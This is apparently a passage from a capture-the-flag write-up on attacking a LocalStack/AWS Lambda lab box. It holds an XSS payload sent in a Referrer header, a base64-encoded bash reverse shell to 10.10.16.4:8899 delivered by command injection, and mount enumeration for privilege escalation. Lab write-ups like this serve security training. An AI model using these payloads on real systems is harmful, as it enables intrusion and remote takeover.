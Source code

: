 ```bash
    "Role": "arn:aws:iam::123456:role/irrelevant",
    "Handler": "lambda.apiHandler",
    "CodeSize": 405,
    "Description": "",
    "Timeout": 3,
    "MemorySize": 128,
    "LastModified": "2023-01-20T02:23:57.683+0000",
    "CodeSha256": "45uc4WaxW/jqP0pJdevclnLFwN8UFJACEIbmkpTzsUE=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "65dae072-1c64-40a7-b870-8fd4f3272a67",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}
(END)

Finally, we make a request to the XSS-vulnerable endpoint setting the Referrer header to `<script>document.location="http://127.0.0.1:8080"</script>`.

Redo things if the shell doesn't drop at the first try.

##### Alternatively command injection in `/lambda/<functionName>/code` to get the reverse shell
```bash
echo -n 'bash  -i >& /dev/tcp/10.10.16.4/8899 0>&1' | base64  
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNC84ODk5IDA+JjE=
```

Then XSS to triger the exploit.js. It more like the inline version of the other way.

### Enum for root
##### Looking shared volume mount with the host
```bash
/opt/code/localstack $ df -h
Filesystem                Size      Used Available Use% Mounted on
overlay                   7.3G      6.5G    760.3M  90% /
tmpfs                    64.0M         0     64.0M   0% /dev
tmpfs                     1.9G         0      1.9G   0% /sys/fs/cgroup
/dev/mapper/ubuntu--vg-ubuntu--lv
                          7.3G      6.5G    760.3M  90% /tmp/localstack
df: /root/.docker: Permission denied
/dev/mapper/ubuntu--vg-ubuntu--lv
                          7.3G      6.5G    760.3M  90% /etc/resolv.conf
/dev/mapper/ubuntu--vg-ubuntu--lv
                          7.3G      6.5G    760.3M  90% /etc/hostname
/dev/mapper/ubuntu--vg-ubuntu--lv
                          7.3G      6.5G    760.3M  90% /etc/hosts
shm                      64.0M      8.0K     64.0M   0% /dev/shm
/dev/mapper/ubuntu--vg-ubuntu--lv
                          7.3G      6.5G    760.3M  90% /home/localstack/user.txt
tmpfs                     1.9G         0      1.9G   0% /proc/acpi
tmpfs                    64.0M         0     64.0M   0% /proc/kcore
tmpfs                    64.0M         0     64.0M   0% /proc/keys
tmpfs                    64.0M         0     64.0M   0% /proc/timer_list
tmpfs                    64.0M         0     64.0M   0% /proc/sched_debug
tmpfs                     1.9G         0      1.9G   0% /proc/scsi
tmpfs                     1.9G         0      1.9G   0% /sys/firmware
```
